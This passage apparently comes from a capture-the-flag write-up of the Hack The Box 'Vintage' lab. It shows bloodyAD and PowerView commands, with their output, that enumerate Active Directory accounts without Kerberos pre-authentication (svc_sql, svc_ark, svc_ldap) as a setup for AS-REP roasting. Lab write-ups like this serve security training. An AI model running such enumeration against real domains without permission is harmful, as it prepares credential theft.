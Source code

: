 now its work

```bash
➜  Vintage bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" --kerberos --dc-ip 10.10.11.45 -k get search  --filter "(objectClass=user)" --attr userAccountControl
distinguishedName: CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb
userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD; DONT_REQ_PREAUTH
```
![alt text](../assets/images/vintage14.png)

Noice now we can check if its really work with powerview

```bash
(LDAP)-[dc01.vintage.htb]-[VINTAGE\P.Rosa]
PV > Get-DomainUser -PreauthNotRequired

cn                                : svc_ark
distinguishedName                 : CN=svc_ark,OU=Pre-Migration,DC=vintage,DC=htb
memberOf                          : CN=ServiceAccounts,OU=Pre-Migration,DC=vintage,DC=htb
name                              : svc_ark
objectGUID                        : {c992370c-b510-4ff5-b3bf-eeb716183845}
userAccountControl                : NORMAL_ACCOUNT [4260352]
                                    DONT_EXPIRE_PASSWORD
                                    DONT_REQ_PREAUTH
badPwdCount                       : 0
badPasswordTime                   : 07/06/2024 08:28:03 (10 months, 17 days ago)
lastLogoff                        : 0
lastLogon                         : 24/04/2025 21:54:44 (today)
pwdLastSet                        : 06/06/2024 13:45:27 (10 months, 18 days ago)
primaryGroupID                    : 513
objectSid                         : S-1-5-21-4024337825-2033394866-2055507597-1136
sAMAccountName                    : svc_ark
sAMAccountType                    : SAM_USER_OBJECT
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=vintage,DC=htb
msDS-SupportedEncryptionTypes     : 

cn                                : svc_ldap
distinguishedName                 : CN=svc_ldap,OU=Pre-Migration,DC=vintage,DC=htb
memberOf                          : CN=ServiceAccounts,OU=Pre-Migration,DC=vintage,DC=htb
name                              : svc_ldap
objectGUID                        : {3b90b174-1c8b-4d97-9455-caadb41c2b30}
```